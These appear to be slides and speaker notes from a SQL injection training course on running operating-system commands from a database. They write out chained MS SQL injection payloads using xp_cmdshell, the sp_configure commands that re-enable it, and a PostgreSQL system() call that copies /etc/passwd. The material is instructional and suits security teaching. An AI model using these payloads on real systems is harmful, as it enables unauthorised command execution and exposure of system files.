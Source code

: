 First injection:
	**'; exec master.xp_cmdshell  'route print > results.txt' --**
Second injection:
	**'; Create TABLE results (outp varchar(5000)); --**
Third injection:  
           **'; BULK INSERT results FROM 'results.txt' with (rowterminator = "\n\n\n\n"); --**
Fourth injection:
	**' and 1 in (select outp from results) --**

---



Re-enabling xp_cmdshell


- xp_cmdshell is disabled by default
- This is on modern MS SQL servers
	- 2005 and later
- Of course we can re-enable it
**EXEC sp_configure 'show advanced options', 1;**
**RECONFIGURE;**
**EXEC sp_configure 'xp_cmdshell', 1;**
**RECONFIGURE;**

Note:

34




By default, Microsoft has started disabling xp_cmdshell.  This started in the 2005 version of Microsoft SQL Server.  But if you have the correct permissions, you are able to re-enable the stored procedure, since it exists.  These four commands will set this up for you:

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;

---



OS Interaction (PostGRES)


- Uses the **system **function
- Results do not echo to the screen
	- Similar to MS SQL
- We run the commands with the privileges PostGRES is running with  
**SELECT system('cat /etc/passwd > /tmp/results.txt');**** **

Note:

35




PostGRES uses the system function during queries to execute system commands.  These commands are limited to what the PostGRES user has permission to run.  As with previous command execution, the results are not displayed to the screen and need to be retrieved in another fashion.

---